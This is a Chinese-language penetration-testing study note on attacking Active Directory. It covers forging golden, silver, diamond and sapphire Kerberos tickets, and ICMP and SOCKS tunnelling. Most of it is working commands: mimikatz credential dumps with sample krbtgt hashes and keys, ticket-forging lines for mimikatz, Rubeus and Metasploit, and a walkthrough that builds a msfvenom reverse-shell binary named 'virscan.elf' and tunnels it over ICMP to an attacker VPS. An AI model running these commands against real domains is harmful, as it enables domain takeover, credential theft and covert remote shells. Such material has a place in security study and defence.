

# 读文章

## 域渗透四种票据

+ 先回顾一下软考信安的Kerberos
  + 流程
    + client->请求->KDC(Kerberos密钥分发中心)通常是DC域控制器->AS身份验证服务器->TGT许可票据
      client->请求->KDC->TGS票据许可服务->ST服务票据
      client->使用->ST->访问服务
    + 

### 黄金票据

+ 简介

  + 是一种权限维持的手段，攻击者获得了Active Directory**密钥分发服务账户**(KRBTGT)的控制权，使用该账户伪造有效的Kerberos票证授予票证(TGT)。
  + 使得攻击者能够访问Active Directory域上的所有资源，若有KRBTGT的hash则可以伪造自己的TGT，包括任何组成员的PAC(Privilege Attribute Certificate)数据
+ 条件

  + 获取KRBTGT用户的加密密钥之一，其中广为人知的就是NTLM HASH值
  + 目标域名：我这里是xxx.org
  + 目标域的sid：lsadump::lsa 有显示S-1-5-21-3759881954-2993291187-3577547808 或者whami /all也可以查看
  + 要模拟的用户账户名称：例如 Administrator
  + 要模拟的用户RID：RID是SID右边的数字，例如管理员是500
    该账户所属组的RID:域用户和域管理员的RID分别是512和513
+ 工具

  + mimikatz读取密钥
  + ```plaintext
    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # lsadump::lsa /inject /name:krbtgt
    Domain : ROOTKIT / S-1-5-21-3759881954-2993291187-3577547808

    RID  : 000001f6 (502)
    User : krbtgt

     * Primary
        NTLM : c3d5042c67ef5f461d0ba6ecdd9ea449
        LM   :
      Hash NTLM: c3d5042c67ef5f461d0ba6ecdd9ea449
        ntlm- 0: c3d5042c67ef5f461d0ba6ecdd9ea449
        lm  - 0: 2ca534c7c96a0b5bf6b37169b68f66af

     * WDigest
        01  3aea9b0472aa93bb13a9b2cffacf1001
        02  d9a716e3ba48883f5e320e32ea793979
    	...
        28  78f36bbd4ba657fdcc2f377e550e0c62
        29  4cb788eeb5b4460b4334f6b6b5cd969b

     * Kerberos
        Default Salt : ROOTKIT.ORGkrbtgt
        Credentials
          des_cbc_md5       : 2cb957646746e376

     * Kerberos-Newer-Keys
        Default Salt : ROOTKIT.ORGkrbtgt
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : 3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
          aes128_hmac       (4096) : c7ae2a311bdd5803646f9a98351c31e6
          des_cbc_md5       (4096) : 2cb957646746e376
    ```
  + 其中

    ```plaintext
    NTLM : c3d5042c67ef5f461d0ba6ecdd9ea449
    aes256_hmac  : 3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
    aes128_hmac  : c7ae2a311bdd5803646f9a98351c31e6
    ```
  + 可用于黄金票据
+ 利用

  + 利用的时候密钥前加上加密的算法例如NTLM/rc4:xxx aes128：/aes128:xxx
  + 清除原有票据：kerberos::purge
  + 注入黄金票据：kerberos::golden /domain:xxx.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt
  + 生成黄金票据文件：kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ticket:golden.kirbi
  + 使用：kerberos::ptt golden.kirbi
  + 伪造用户：kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:"Hello world,Nice to meet you my dear" /id:500 /groups:500,501,513,512,520,518,519 /ptt
  + 伪造组成员资格：kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:micle /id:1139 /groups:500,501,513,512,520,518,519 /ptt
+ 其他工具

  + impacket

    + https://blog.csdn.net/qq_18811919/article/details/129152861
  + msf下

    + load kiwi
      dcsync_ntlm krbtgt
    + golden_ticket_create -d rootkit.local -u administrator -s S-1-5-21-3759881954-2993291187-3577547808 -k c3d5042c67ef5f461d0ba6ecdd9ea449 -t /home/kali/ticket.kirbi
      kerberos_ticket_use /home/kali/ticket.kirbi

### 白银票据

+ 简介
  + 伪造TGS票据许可服务票证，攻击者只能伪造特定服务的TGS，同样的也是窃取其hash来生成白银票据
+ 条件
  + 条件和黄金票据类似，只是密钥换成了对应服务的机器用户hash(尾部带$)
    + 目标域名：xxx.org
      目标域的sid：刚刚lsadump::lsa 有显示S-1-5-21-3759881954-2993291187-3577547808 或者whami /all也可以查看
      要模拟的用户账户名称：例如 Administrator
      要模拟的用户RID：RID是SID右边的数字，例如管理员是500
      该账户所属组的RID:域用户和域管理员的RID分别是512和513
+ 工具
  + mimikatz
    + privilege::debug
      sekurlsa::logonpasswords
    + 得到用户NTLM后注入票据
    + kerberos::golden /sid:S-1-5-21-202412995-3582062751-167045153 /domain:rootkit.org /target:SRV-WEB-KIT.rootkit.org /service:cifs /rc4:78e1c42dbff68fdd87ea7abd70b67533 /user:name /ptt

### 黄票与银票区别

+ 权限不同
  + 黄：伪造TGT，获取所有Kerberos服务权限
  + 白：伪造TGS，只能访问特定服务
+ 加密方式
  + 黄：Kerberos的NTLM hash
  + 白：服务账户的NTLM hash
+ 认证流程
  + 黄：要通过DC域控
  + 白：不经过KDC域控，所以日志会少，KDC不会留日志

### 钻石票据

+ 简介

  + 和黄金票据类似，都需要访问krbtgt密钥。但钻石票据需要访问AES256密钥，黄金票据是伪造了TGT票证授予证，而钻石票据利用了DC来请求真实的TGT进行解密后重新加密进行票据攻击
+ 钻石PAC

  + PAC(Privilege Attribute Certificate)用来验证身份有效性，如今我们需要拥有krbtgt密钥+其他有效用户来请求TGT。
+ 流程

  + **获取有效的TGT** ：攻击者首先需要获取一个有效的TGT（票证授予票据），这通常是通过模仿合法用户的登录过程来实现的。
  + **解密TGT** ：攻击者然后解密TGT，以获取其中的信息，包括用户的主密钥（session key）和用户的票证密钥（Ticket Key）。
  + **修改TGT** ：攻击者使用解密得到的session key来解密TGT，然后修改TGT中的某些信息，例如用户ID或权限。
  + **重新计算PAC签名** ：修改后的TGT需要一个新的PAC签名，以证明修改后的TGT的有效性。攻击者会使用用户的票证密钥来重新计算PAC签名。
  + **重新加密TGT** ：最后，攻击者使用session key重新加密修改后的TGT，生成一个新的TGT。
+ 工具

  + mimikatz
  + 获取krbtgt用户的aes256密钥
  + mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:rootkit.org /user:krbtgt" "exit"
  + 需要的

    + krbkey:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
      低权限用户user:micle
      用户密码password:Admin12345
      domain:rootkit.org
      dc:owa2013.xxx.org
      ticketuser:administrator //伪造的票据用户名可以任意，不需要域中存在该用户
  + rubeus.exe 重新构造TGT 后注入

    + Rubeus.exe diamond /krbkey:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:micle /password:Admin12345 /enctype:aes /domain:rootkit.org /dc:owa2013.xxx.org /ticketuser:test123 /ptt /nowrap
    + Rubeus.exe asktgs /ticket:doIFMjCCEyM6MHAwUAQOEAAKURGA8yMDI0MDIwNTA0Mjk0OFqmERgPMjAyNDAyMDUxNDI5NDhapxEYDzIwMjQwMjEyMDQyOTQ4WqgNGwtST09US0lULk9SR6kgMB6gAwIBAqEXMBUbBmtyYnRndBsLUk9PVEtJVC5PUkc= /service:cifs/owa2013.xxx.org /ptt /nowrap
+ 对比

  + 相比黄金票据更隐蔽，因为申请的TGT是真实的，我们只修改了PAC

### 蓝宝石票据

+ 简介
  + 蓝宝石票据与钻石票据类似，票据不是伪造的，而是通过请求后获得的合法票据。他们的区别在于 `PAC`的修改方式。钻石票据是修改了合法 `PAC`以添加特权组。在蓝宝石票据中，高权限用户 `PAC`是通过
    `S4U2Self+U2U`获得的，然后该 `PAC`会替换原来的 `PAC`，由于该票据是完全合法元素组合起来的，所以是最难检测的票据。

## 域渗透隧道

+ ICMP
  + 简介
    + 报文协议，用于传递控制消息(错误报告，操作请求，网络诊断等)
    + ICMP可包装TCP/UDP数据到PING包内，FW不会屏蔽PING包，实现不受限访问
  + 工具
    + Pingtunnel [https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel)
      + VPS
        + ./pingtunnel -type server -key [只能为数字]
      + Client
        + pingtunnel.exe -type client -l :2222 -s [vps_ip] -t [vps_ip:3333] -tcp  1 -noprint 1 -nolog 1 -key 0000
        + 本地的2222端口转发到vps的ICMP端口 使用tcp协议
      + 上线MSF
        + ```
          msf利用icmp隧道反向出网获取shell
          kali执行pingtunnel运行服务端
          ./pingtunnel -type server -noprint 1 -nolog 1 &
          kali执行msf监听
          use exploit/multi/handler
          set payload linux/x64/meterpreter_reverse_tcp
          set lhost 192.168.1.5
          set lport 7777
          run

          kali 生成linux反弹木马,上传到目标机器centos的tmp下
          msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=6666 -f elf > virscan.elf

          上传pingtunnel 到centos并执行
          # ./pingtunnel -type client -l 127.0.0.1:6666 -s 192.168.1.5 -t 192.168.1.5:7777 -tcp 1 -noprint 1 -nolog 1 &


          centos执行木马
          ./virscan.elf

          kali接受到反弹shell
          meterpreter > shell
          SHELL=/bin/bash script -q /dev/null
          ```
    + IOX [https://github.com/EddieIvan01/iox]()
      + 联动使用
        + VPS
          + 使用Pingtunnel搭建好vps、client后
          + ./iox proxy -l 3333 -l 4444
          + 将本地的3333端口转发到4444端口开启socks5隧道 注意顺序
        + Client
          + iox.exe proxy -r 0.0.0.0:2222
          + 客户端将本地的2222端口转发出网
        + 服务端收到客户端的socks5请求则成功
      + 单独使用
        + 穿透
          + VPS
            + ./iox fwd -l *2222 -l 3333 -k 123456
            + 将所有ip请求2222端口的流量转发到3333端口 并且使用key加密
          + Client
            + ./iox fwd -r 127.0.0.1:22 -r *vps:2222 -k 123456
            + 将本地22端口转发到服务端的2222端口
            + 此时的服务端访问本地的3333端口即可访问客户端的22端口
        + socks5
          + VPS
            + /etc/proxychains.conf写入socks5 0.0.0.0:1080
            + 或者
            + sockscap64中添加
            + ./iox proxy -l 2222 -l 1080
            + 建立socks5隧道 将2222端口转发到1080
          + Client
            + ./iox proxy -r vps:2222
            + 连接服务端的2222端口建立socks5
      + EW
        + 联动使用 https://blog.csdn.net/huayimy/article/details/135347548
          + 不知道为什么iox 和 pingtunnel为什么不能联动启socks5 随即换ew
          + VPS
            + ./ew -s rcsocks -e 3333 -l 4444
            + 建立socks5隧道 将3333端口转发到4444
          + Client
            + ./ew -s rssocks -d 127.0.0.1 -e 2222
            + 将客户端本地的请求通到我们客户端开启的pingtunnel的2222端口下
      + SPP
        + https://forum.butian.net/index.php/share/400
        + https://github.com/esrrhs/spp
        + VPS
          + todo
